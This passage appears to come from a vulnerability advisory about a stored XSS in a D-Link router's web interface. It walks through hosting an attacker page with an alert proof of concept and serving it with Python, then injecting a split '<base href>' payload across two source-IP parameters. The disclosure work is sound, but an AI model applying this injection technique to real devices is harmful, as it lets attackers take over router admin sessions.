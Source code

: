```Javascript
<html>
    <h1>Attacker's Site</h1>
    <script>alert('XSS in domain: '+document.domain)</script>
</html>
```

The third step needed is to start a local web server (for example using python) in order to serve our resource.
```
$ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Now it is possible to test our configuration:
```Javascript
$ curl http://a-tt.com/header.asp
<html>
<h1>Attacker's Site</h1>
<script>alert('XSS in domain: '+document.domain)</script>
</html>
```

We are now ready to store the XSS payload inside the device web application tampering the following request.

![](/images/2019-01-24-D-Link-DIR-3782-SecAdvisory:-OS-Command-Injection-and-Stored-XSS/new_xss4.png)

As you can see from the image, the payload was divided in two parts that have been injected respectively: `<base href=//a` in the `SrcIPaddrBeginTXT` parameter and `tt.com>` in the `SrcIPaddrEndTXT` parameter.

Once the DOM tree will be created by the browser, the html code, with the injected payload, will be the following: 
